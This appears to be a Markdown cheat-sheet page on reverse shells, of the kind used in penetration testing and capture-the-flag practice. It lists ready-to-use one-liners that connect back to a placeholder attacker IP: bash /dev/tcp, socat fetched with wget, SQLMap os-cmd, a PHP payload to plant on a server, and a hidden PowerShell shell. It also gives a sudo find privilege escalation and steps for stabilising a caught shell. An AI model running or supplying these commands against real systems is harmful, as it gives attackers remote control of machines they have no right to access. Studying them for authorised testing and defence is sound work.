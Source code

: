 ```yaml
---
title: "Reverse Shells"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [bash, socat, shell, reverse, tcp, find, sqlmap, linux, shells, one-liners]
order: 6
---
```


A reverse shell is a technique where the target machine initiates a connection back to the attacker, allowing remote access even through firewalls. Below are examples, including stabilization tips.

## 🎧 On the Attacker Machine (Listener)

```bash
nc -lvnp <Port>
```

Start a listener to catch the reverse shell connection.

## 🐚 Bash Reverse Shell

```bash
/bin/sh -i >& /dev/tcp/<Your-IP>/<Port> 0>&1
```

Simple, reliable one-liner using bash networking capabilities.

## 📼 Linux Script Shell

```bash
script -qc /bin/bash /dev/null
```

Used to stabilize a limited shell via `script`.

## 🔀 Socat Reverse Shell (Static Binary)

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat
chmod +x /dev/shm/socat
/dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<Your-IP>:<Port>
```

Full-featured shell with proper TTY, even when `socat` isn’t installed.

## 🔎 Find Command Reverse Shell

```bash
sudo find . -exec /bin/sh \; -quit
```

Useful when `sudo` permissions include `find`. Pops a shell.

## 🧪 SQLMap Reverse Shell

```bash
sqlmap --os-shell --hostname target --os-cmd "bash -i >& /dev/tcp/<Your-IP>/443 0>&1"
```

Trigger a shell via SQLMap after gaining command execution access.

## 🐘 PHP Reverse Shell

```php
<?php system("bash -c 'bash -i >& /dev/tcp/<Your-IP>/4444 0>&1'"); ?>
```

Drop this on a server to trigger a reverse shell if there's file inclusion or RCE.

## 🪟 PowerShell Reverse Shell (Windows)

```powershell
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('<Your-IP>',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

Reverse shell for Windows systems with PowerShell access.

# 🧩 Stabilizing a Reverse Shell

When you catch a shell, it’s often unstable or limited. Here’s how to fix it.

## 🐍 Upgrade to PTY Shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Provides a pseudo-terminal (more interactive, handles input better).

## 💤 Suspend the Shell

Press `Ctrl+Z`

Sends the shell to background so you can configure your terminal.

## 🛠️ Raw Mode + Foreground

```bash
stty raw -echo
fg
```

Switches terminal mode and brings shell back to foreground.

## 📐 Fix Size + Colors

```bash
export SHELL=bash
stty rows 30 columns 120
export TERM=xterm-256color
```

Helps with arrow keys, colors, resizing issues.